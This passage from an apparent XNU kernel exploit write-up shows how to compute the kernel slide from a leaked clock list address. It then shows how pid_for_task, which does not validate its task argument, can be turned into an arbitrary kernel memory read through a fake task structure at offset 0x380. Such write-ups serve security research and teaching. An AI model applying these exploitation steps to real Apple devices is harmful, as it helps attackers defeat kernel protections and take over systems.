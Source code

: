 After finding clock, we can get kernel slide easily.

```c
	kernel_slide = clock_list_addr - clock_list;
	allproc += kernel_slide;
```

### Read arbitrary kernel memory

After reading XNU source code, we can find that

```c
kern_return_t
pid_for_task(
	struct pid_for_task_args *args)
{
	mach_port_name_t	t = args->t;
	user_addr_t		pid_addr  = args->pid;  
	proc_t p;
	task_t		t1;
	int	pid = -1;
	kern_return_t	err = KERN_SUCCESS;

	AUDIT_MACH_SYSCALL_ENTER(AUE_PIDFORTASK);
	AUDIT_ARG(mach_port1, t);

	t1 = port_name_to_task(t);

	if (t1 == TASK_NULL) {
		err = KERN_FAILURE;
		goto pftout;
	} else {
		p = get_bsdtask_info(t1);
		if (p) {
			pid  = proc_pid(p);
			err = KERN_SUCCESS;
		} else {
			err = KERN_FAILURE;
		}
	}
	task_deallocate(t1);
pftout:
	AUDIT_ARG(pid, pid);
	(void) copyout((char *) &pid, pid_addr, sizeof(int));
	AUDIT_MACH_SYSCALL_EXIT(err);
	return(err);
}
```

`pid_for_task` won't check wether the task is valid or not, but simply return 

```c
*(*(uint64_t *)(task + 0x380) + 0x10)
```
